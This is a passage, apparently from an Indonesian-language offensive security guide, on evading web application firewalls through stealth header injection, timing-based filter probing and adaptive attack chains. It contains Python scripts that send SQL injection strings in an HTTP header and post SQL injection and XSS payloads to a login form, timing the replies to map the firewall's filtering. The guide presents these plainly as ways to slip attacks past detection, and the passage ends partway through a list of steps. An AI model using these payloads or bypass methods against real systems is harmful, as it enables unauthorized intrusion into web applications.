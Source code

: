 
## 🕵️‍♂️ 2. Stealth Attacks & Covert Channels

Serangan **Stealth Attack** adalah teknik mengirimkan payload secara tersembunyi dalam **request normal**, misalnya:  

- **DNS Tunneling** → Payload dikirim melalui permintaan DNS.  
- **HTTP Header Injection** → Payload disisipkan dalam **header tidak umum**.  
- **Time-Based Evasion** → Payload dikirim bertahap dalam **beberapa detik** agar tidak terdeteksi.  

**Contoh HTTP Header Injection untuk Bypass WAF:**  
```python
import requests

payload = {"X-Real-IP": "' OR '1'='1"}
response = requests.get("https://target.com", headers=payload)

print(response.text)
```

---

## 🔍 3. Side-Channel Exploits for WAF Bypass

- **Cache Poisoning** → Menggunakan cache server untuk menyimpan payload yang tidak difilter.  
- **Timing Attacks** → Menganalisis waktu respon WAF untuk menentukan filter yang aktif.  
- **Memory Leak Exploits** → Mengeksploitasi kebocoran memori dalam WAF untuk melewati deteksi.  

**Contoh Timing Attack untuk Mendeteksi Filter WAF:**  
```python
import time
import requests

payloads = ["' OR '1'='1", "' UNION SELECT NULL, NULL--", "<script>alert(1)</script>"]
target_url = "https://target.com/login"

for payload in payloads:
    start_time = time.time()
    response = requests.post(target_url, data={"username": "admin", "password": payload})
    elapsed_time = time.time() - start_time
    
    print(f"Payload: {payload} - Response Time: {elapsed_time} seconds")
```

---

## 🔗 4. Adaptive Attack Chains

Teknik **Adaptive Attack Chain** memungkinkan serangan menyesuaikan payload berdasarkan respons WAF.  

**Langkah-langkah:**  
1. Kirim payload awal dan analisis respon WAF.  
2. Ubah payload sesuai deteksi WAF.  
3. Kirim payload yang lebih stealth untuk lolos filter.  
